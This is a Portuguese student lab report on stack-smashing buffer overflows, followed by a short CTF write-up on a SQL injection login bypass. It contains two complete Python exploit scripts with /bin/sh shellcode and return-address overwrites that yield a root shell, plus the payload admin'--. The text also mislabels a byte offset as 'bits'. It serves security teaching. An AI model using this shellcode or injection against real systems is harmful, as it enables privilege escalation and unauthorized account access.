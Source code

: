 # Lab Semana 5

O objetivo do trabalho esta semana é perceber em detalhe o ataque de *buffer overflow* conhecido como *smashing the stack*.

### Task 1

Ao compilar `call_shellcode.c` e correr `a32.out` e `a64.out` separadamente, verificamos que ambos iniciam uma *shell* independentemente da arquitetura para qual é compilado.

### Task 3

Seguindo a sugestão no guião, adicionamos a seguinte linha a `stack.c`:

```c
printf("Address of buffer: %p\n", &buffer);
```

E ao correr o programa dentro e fora de `gdb` conseguimos descobrir o *offset* que o *debugger* incorre na memória.
Verificamos que o endereço de memória do *buffer* dentro do `gdb` foi `0xffffcadc`, e fora do mesmo obtivemos o valor de `0xffffcb4c`. Isto significa que há um *offset* de 112 bits.

Correndo `gdb stack-L1-dbg` e seguindo o guia, conseguimos obter os seguintes endereços de memória:

![](img/lab05/gdb.png)

A partir do valor de `ebp` e do endereço de `buffer` conseguimos obter *offset* de memória desde `buffer` até onde o *return adress* é guardado.

```
0xffffcb48 - 0xffffcadc = 108
```

Uma vez que o *return address* é guardado no endereço de memória anterior ao *stack frame*, o *offset* que realmente queremos é 112.

Finalmente, para calcular o *return address*, basta escolher um valor maior que 112 e que ocorra antes do início do *shellcode*, e que adicionalmente seja divisível por 4, como, por exemplo 120.

Assim, e utilizando o valor arbitrário de 200 como o índice do *buffer* onde começa o *shellcode*, `exploit.py` fica assim:

```py
#!/usr/bin/python3
import sys

# Replace the content with the actual shellcode
shellcode= (
  "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f"
  "\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31"
  "\xd2\x31\xc0\xb0\x0b\xcd\x80"
).encode('latin-1')

# Fill the content with NOP's
content = bytearray(0x90 for i in range(517)) 

##################################################################
# Put the shellcode somewhere in the payload
start = 200
content[start:start + len(shellcode)] = shellcode

# Decide the return address value 
# and put it somewhere in the payload
ret    = 0xffffcbc4    # &buffer + 120
offset = 112

L = 4     # Use 4 for 32-bit address and 8 for 64-bit address
content[offset:offset + L] = (ret).to_bytes(L,byteorder='little') 
##################################################################

# Write the content to a file
with open('badfile', 'wb') as f:
  f.write(content)
```

Correndo `./exploit.py` seguido de `./stack-L1`, verificamos que ganhamos acesso à *root shell*:

![](img/lab05/root_shell.png)

### Task 4

Aqui, o processo é semelhante. No entanto, não sabemos o tmanaho inicial do *buffer*.

Como nos é informado que o *buffer* pode ter desde 100 a 200 bytes e não podemos usar força bruta, para assegurar que funciona para qualquer tamanho nesse intervalo teremos de colocar o *shellcode* algures depois do tamanho máximo do *buffer*.

Vimos na tarefa anterior que o *return address* se econtrava 12 bytes após o final do *buffer* (100 + 12). Logo, se preenchermos as posições 112 a 212 do *buffer* com o *return address* que pretendemos, qualquer *buffer* com o tamanho contido no intervalo indicado encontrará o *return address* em `ebp`.

Usando o `gdb`, vemos que o endereço do *buffer* é `0xffffcaa0`, logo fora do mesmo será `0xffffcb0c`.

Usando os valores arbitrários de 240 como início do *shellcode* e 220 o *offset* do *return address*, o `exploit.py` terá o seguinte conteúdo:

```py
#!/usr/bin/python3
import sys

# Replace the content with the actual shellcode
shellcode= (
  "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f"
  "\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31"
  "\xd2\x31\xc0\xb0\x0b\xcd\x80"
).encode('latin-1')

# Fill the content with NOP's
content = bytearray(0x90 for i in range(517)) 

##################################################################
# Put the shellcode somewhere in the payload
start = 240
content[start:start + len(shellcode)] = shellcode

# Decide the return address value 
# and put it somewhere in the payload
ret    = 0xffffcbe8    # &buffer + 220
offset = 112

L = 4     # Use 4 for 32-bit address and 8 for 64-bit address
for x in range(26):    # (212 - 112) / 4 + 1 = 26
	content[offset + x * 4 :offset + L + x * 4] = (ret).to_bytes(L,byteorder='little') 
##################################################################

# Write the content to a file
with open('badfile', 'wb') as f:
  f.write(content)
```
Executando `./exploit.py` uma vez mais, seguido de `./stack-L2`, conseguimos mais uma vez ter acesso à *root shell*.

![](img/lab05/root_shell_l2.png)

---

# CTF

Neste CTF, tivemos de entrar num sistema, a partir de um *login*, com *SQL Injection*.

Optamos por inserir o seguinte código SQL no campo de início de sessão do nome de utilizador: admin'--. Ao enviar essa sequência para o servidor, o código SQL injetado substituirá $username na consulta, alterando a estrutura para $query = "SELECT username FROM user WHERE username = '".username."' AND password = '".password."'";$. O caractere de apóstrofo que inserimos após "admin" encerrará a cadeia de pesquisa, fazendo com que os caracteres "--" sejam interpretados como código SQL. Em SQL, "--" é a sintaxe para comentar uma linha, assim, a consulta comentará tudo após 'admin', efetivamente transformando a consulta para $query = "SELECT username FROM user WHERE username = 'admin'";. Agora, a consulta procura apenas na base de dados usando um nome de utilizador, possibilitando o acesso a uma conta apenas com o conhecimento do nome de utilizador, tornando a palavra-passe irrelevante.

![](img/lab08/Captura_de_ecrã_de_2023-12-14_17-30-53.png)

![](img/lab08/Captura_de_ecrã_de_2023-12-14_17-31-18.png)



